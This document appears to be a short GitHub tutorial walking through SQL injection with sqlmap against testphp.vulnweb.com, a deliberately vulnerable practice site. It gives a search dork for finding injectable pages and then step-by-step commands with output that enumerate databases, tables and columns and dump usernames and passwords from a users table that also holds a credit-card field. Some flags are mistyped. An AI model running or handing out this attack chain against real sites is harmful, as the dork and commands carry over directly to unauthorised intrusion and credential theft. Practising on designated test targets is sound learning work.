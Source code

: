 # sample
 first go the vulweb website

and choose sql and copy the linked and paste in chrome

site:http://testphp.vulnweb.com/ php?id=  enter
 
 after we can get the linke of vulweb 

like this http://testphp.vulnweb.com/artists.php?artist=1

this is the link we need to attack 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs
 dbs is the database 
 now check for tables

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -- tables

acuart is databse we find it before database

 this is the tables 
artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users  

 now this we are goint to see the tales in  column name

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -T  users --columns 
Column  | Type         |

| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100)

T is the table what we need to search we need to put

we are going to find the user name from this column and table 

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -T  users -C uname --dump

now we can find username test

now we goint to find the password

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -T  users -C pass --dumps

password is test

 with this command we can find all 


